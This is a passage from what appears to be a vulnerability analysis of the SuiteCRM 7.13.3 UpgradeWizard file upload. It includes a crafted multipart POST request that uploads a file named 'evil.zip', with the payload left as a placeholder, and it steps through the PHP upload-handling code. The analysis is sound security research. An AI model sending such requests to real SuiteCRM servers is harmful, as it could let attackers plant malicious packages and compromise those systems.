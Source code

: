 After reading through this logic, there doesn't appear to be any unique values or pre-check conditions required to continue to the actual file upload request. Therefore, we can ignore this file for now and focus on the second request.

Remember, our second request looks like this:
```HTTP
POST /SuiteCRM-7.13.3/index.php HTTP/1.1

------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="module"

UpgradeWizard
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="action"

index
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="step"

2
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="run"

upload
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip"; filename="evil.zip"
Content-Type: application/zip

<ZIP DATA HERE>
------WebKitFormBoundary9VoKZp0SUAVBNYA5
Content-Disposition: form-data; name="upgrade_zip_escaped"

C%3A%5Cfakepath%5Cevil.zip
------WebKitFormBoundary9VoKZp0SUAVBNYA5--
```

With the run form-data set to 'upload' in our request, the application first checks to see if we have the `release_id` request parameter set. Since we do not have this set in our request, we continue on to the else clause.

$upload is created as an object of UploadFile with our file passed in. The application then checks to see if our upload was completed successfully. If all is well, $tempFile is set to the upload:// stream and our file name is concatenated to it. The application attempts to move the file to the upload directory and again checks to ensure that the move was successful. If successful, $perform is marked as true indicating that further processing can continue.

```PHP
} else {
            $upload = new UploadFile('upgrade_zip');
            /* Bug 51722 - Cannot Upload Upgrade File if System Settings Are Not Sufficient, Just Make sure that we can
            upload no matter what, set the default to 60M */
            global $sugar_config;
            $upload_maxsize_backup = $sugar_config['upload_maxsize'];
            $sugar_config['upload_maxsize'] = 60000000;
            /* End Bug 51722 */
            if (!$upload->confirm_upload()) {
                logThis('ERROR: no file uploaded!');
                echo $mod_strings['ERR_UW_NO_FILE_UPLOADED'];
                $error = $upload->get_upload_error();
                // add PHP error if isset
                if ($error) {
                    $out = "<b><span class='error'>{$mod_strings['ERR_UW_PHP_FILE_ERRORS'][$error]}</span></b><br />";
                }
            } else {
```